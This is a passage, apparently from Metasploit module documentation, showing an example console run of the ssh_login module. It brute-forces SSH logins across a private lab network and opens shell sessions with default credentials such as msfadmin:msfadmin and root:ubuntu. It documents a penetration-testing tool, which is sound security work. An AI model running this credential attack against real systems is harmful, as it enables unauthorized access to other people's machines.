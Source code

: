 192.168.2.156
192.168.2.137
192.168.2.35
192.168.2.46
msf auxiliary(ssh_login) > set rhosts file://root/ssh_hosts.lst
rhosts => file://root/ssh_hosts.lst
msf auxiliary(ssh_login) > set verbose false
verbose => false
msf auxiliary(ssh_login) > set threads 4
threads => 4
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Command shell session 5 opened (192.168.2.117:44415 -> 192.168.2.46:22) at 2017-02-22 20:26:13 -0500
[*] Command shell session 6 opened (192.168.2.117:36107 -> 192.168.2.35:22) at 2017-02-22 20:26:13 -0500
[+] SSH - Success: 'root:ubuntu' 'uid=0(root) gid=0(root) groups=0(root) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 7 opened (192.168.2.117:32829 -> 192.168.2.156:22) at 2017-02-22 20:26:35 -0500
[+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 8 opened (192.168.2.117:42205 -> 192.168.2.156:22) at 2017-02-22 20:26:42 -0500
[+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 9 opened (192.168.2.117:37027 -> 192.168.2.137:22) at 2017-02-22 20:26:44 -0500
[*] Scanned 3 of 4 hosts (75% complete)
[*] Scanned 4 of 4 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions -l

Active sessions
===============

  Id  Type          Information                              Connection
  --  ----          -----------                              ----------
  5   shell /linux  SSH msfadmin:msfadmin (192.168.2.46:22)  192.168.2.117:44415 -> 192.168.2.46:22 (192.168.2.46)
  6   shell /linux  SSH msfadmin:msfadmin (192.168.2.35:22)  192.168.2.117:36107 -> 192.168.2.35:22 (192.168.2.35)
  7   shell /linux  SSH root:ubuntu (192.168.2.156:22)       192.168.2.117:32829 -> 192.168.2.156:22 (192.168.2.156)
  8   shell /linux  SSH ubuntu:ubuntu (192.168.2.156:22)     192.168.2.117:42205 -> 192.168.2.156:22 (192.168.2.156)
  9   shell /linux  SSH ubuntu:ubuntu (192.168.2.137:22)     192.168.2.117:37027 -> 192.168.2.137:22 (192.168.2.137)
```

  Example run against:
```